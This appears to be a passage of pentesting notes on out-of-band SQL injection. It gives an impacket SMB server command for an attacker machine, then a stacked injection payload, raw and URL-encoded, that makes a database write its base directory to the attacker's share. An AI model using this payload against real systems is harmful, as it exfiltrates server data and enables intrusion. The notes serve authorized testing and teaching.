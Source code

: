 <figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>

###

**Kali #1**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support public share
```

If the out.txt file exists it will not rewrite it.&#x20;

**Kali #2**

```
mkdir share
rm -f share/out.txt
```

Sent the request to Burp. Url encoded it.

**Burp**

```
#Original
1'; SELECT @@basedir INTO OUTFILE '\\\\$KALI\\public\\out.txt'; --

#URL Encoded
1'%3b+SELECT+%40%40basedir+INTO+OUTFILE+'\\\\$KALI\\public\\out.txt'%3b+--+  
```

<figure><img src="../../.gitbook/assets/image (1087).png" alt=""><figcaption></figcaption></figure>

## Other Techniques

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:
